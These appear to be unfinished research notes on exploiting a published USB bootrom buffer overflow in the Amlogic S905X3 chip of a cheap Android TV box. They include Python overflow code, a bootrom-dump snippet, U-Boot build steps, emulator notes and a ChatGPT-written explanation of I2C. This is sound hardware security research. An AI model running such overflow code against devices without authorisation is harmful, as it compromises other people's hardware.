




Amlogic S905X3
This Amlogic processor is in a lot of Android TV boxes, which you can buy on marketplaces like Aliexpress. These devices are fun to buy because they are cheap but have quite a lot of pheriperals and features, which you would usually not have in a development board.
The device used in here is the VONTAR X96 Air which is available on aliexpress.
This device has the following features:
4GB LPDDR4 RAM
64GB eMMC storage
1000Mbit ethernet
Wifi & Bluetooth
Bootrom Exploit
There is already a bootrom vulnerability for this SoC family, which was published on fred’s blog. This vulnerability has not yet been exploited on this specific SoC type, so let’s first exploit it.
Let’s first take a look at the memory layout used by the SoC

According to the documentation from fred’s notes, the vulnerability is in the handling of the REQ_WR_LARGE_MEM command.
This command does not check if we send empty transfers and due to this we can overflow the download buffer and overwrite our Link Register (LR).
To check if this vulnerability is present we will first see if we can crash the device. We do this by trying to overflow a large portion of the download buffer and to send payloads with valid pointers to the start of the bootrom. We should be able to send at least 64kb of data to the download buffer, if we can overflow the first part we should at some point get a crash and have an indication of where the stack is located on the target device.
The code to do this is here:
def test_vulnerability():
device = AmlogicDevice()
controlData = pack('<IIII', D_BUFFER_START, D_BUFFER_MAX, 0, 0)
device.dev.ctrl_transfer(bmRequestType = 0x40,
bRequest = REQ_WR_LARGE_MEM,
wValue = BULK_TRANSFER_SIZE,
wIndex = 100000,
data_or_wLength = controlData)
guess_overflow = 1070 # 0xfffe3688 on a reference device, which is 1078 empty buffers ((0xfffe3688 - D_BUFFER_START) // BULK_TRANSFER_SIZE)
for i in range(guess_overflow):
device.usb_write(b"")
overflow_addr = D_BUFFER_START + (guess_overflow * BULK_TRANSFER_SIZE)
payload = struct.pack("<Q", BOOTROM_START) * (BULK_TRANSFER_SIZE // 8)
while True:
device.usb_write(payload)
info(f"Overflowing: {hex(overflow_addr)}")
# Results in:
# [i] Overflowing: 0xfffe2e00
The result of this code is that the device crashes at overflow address 0xfffe2e00, meaning we are probably overwriting the stack here.
This overflow can now be visualised as follows:

github
As it turns out, someone else has already exploited this vulnerability, this code can be found on github. This is why it is always good to do a thorough research on existing research when starting a new project.
Dumping the bootrom
Using the above code and reference code from uboot we can attach the debugger to this device. We need to implement send/receive, however with only a functioning send we can already know that the debugger is living and we first want to dump the bootrom.
One of the currently missing functionalities is something to run code on the first boot/setup of the GA, since it assumes peek/poke is already setup. This might be something we will need to change in the future. We can dump the bootrom with the following code:
void recv_data(void *data, uint32_t len) {
//Dump bootrom
uint32_t tx = 0;
send((void *)0xFFFF0000, 0x10000, &tx);
}
U-Boot
To get more insight into some BootROM functions, we can build U-Boot. This is an opensource and widely used bootloader.
A lot of functionalities are copied into the BootROM, meaning that we could try to get some structures and functions from U-Boot into Ghidra.
To do this we will have to build U-Boot with symbols, then create a symbol database from U-Boot into Ghidra and use that database to find and rename functions in the BootROM
Build U-Boot
To build U-Boot you will need:
a gcc-aarch64 compiler (sudo apt install gcc-aarch64-linux-gnu)
bison (sudo apt install bison)
flex (sudo apt install flex)
$ git clone https://source.denx.de/u-boot/u-boot.git
$ export CROSS_COMPILE=aarch64-linux-gnu-
$ export ARCH=arm64
$ make sei610_defconfig
$ make -j2
Emulation
Emulation
Figure out where the stack is set:

The stack is set at: 0xfffe3800.
The goal is to make a fuzzer for the USB and I2C devices.
To get insight and help with reverse engineering an emulator is being developed.
UART is implemented in software. When the device boots it always sends a message over UART, this can now be printed:
print(bytes(self.get_device("UART").get_rx()))
b'BL:511f6b:\x00\x00\x00\x00\x00\x00;FEAT:FF800228:0;POC:0;RCY:0;USB:0;'
Timer device is also implemented.
Implement USB device
Dump Efuses from reference device and use it in the emulator, along with an efuse device
Quickly after boot a string is read from I2C. According to several sources on the internet this I2C device is in the HDMI port(TODO check this).
I2C is a serial protocol, which relies on 2 lines, SCK for clock and SDA for data. For this SoC and using the emulator we can see that GPIO25 is used for SCL and GPIO27 for SDA.
For Emulating this
Explanation of I2C according to ChatGPT:
The I2C (Inter-Integrated Circuit) protocol is a popular serial communication protocol used for communication between integrated circuits (ICs) in various electronic devices. It was developed by Philips (now NXP Semiconductors) and is widely adopted due to its simplicity and versatility.
Key features of the I2C protocol include:
Master-Slave Architecture: The I2C bus typically consists of one or more master devices and multiple slave devices. The master device initiates and controls the communication, while the slave devices respond to commands and provide data or services.
Two-Wire Communication: I2C utilizes two lines for communication: a serial data line (SDA) and a serial clock line (SCL). Both lines are bidirectional, allowing data to be transmitted in both directions.
Addressing: Each slave device on the I2C bus has a unique address, allowing the master device to communicate with specific slaves. Addressing can be 7-bit or 10-bit, depending on the device and the variant of the I2C protocol.
Start and Stop Conditions: Communication on the I2C bus is initiated by the master device by asserting a start condition (a falling edge on SDA while SCL is high). The start condition indicates the beginning of a transmission. The master also sends a stop condition (a rising edge on SDA while SCL is high) to indicate the end of a transmission.
Data Transmission: Data is transferred in bytes (8 bits) between the master and slave devices. Each byte is followed by an acknowledgment (ACK) or not-acknowledgment (NACK) bit, indicating whether the receiver successfully received the data.
Clock Synchronization: The I2C protocol relies on the synchronized clock signals on the SCL line. Both the master and slave devices operate based on this clock signal.
Standard and Fast Modes: The I2C protocol supports two main modes: Standard Mode (up to 100 kbit/s) and Fast Mode (up to 400 kbit/s). Some devices also support High-Speed Mode (up to 3.4 Mbit/s) and Ultra-Fast Mode (up to 5 Mbit/s).
Multi-Master Support: I2C supports multi-master communication, allowing multiple master devices to coexist on the same bus. Collision detection and arbitration mechanisms are employed to prevent conflicts and ensure proper communication.
The I2C protocol is commonly used for various purposes, including connecting sensors, memory devices, displays, and other peripheral devices to microcontrollers, embedded systems, and other electronic devices. It provides a simple and efficient means of serial communication with minimal wiring requirements.
It's important to note that different devices and implementations may have specific variations or additional features built on top of the basic I2C protocol. Therefore, it's always recommended to refer to the device datasheet or the specific implementation documentation for detailed information on the usage and configuration of I2C in a particular system.
Implementing USB
Debugger Implementation
The debugger for this processor is implemented with the following memory map:
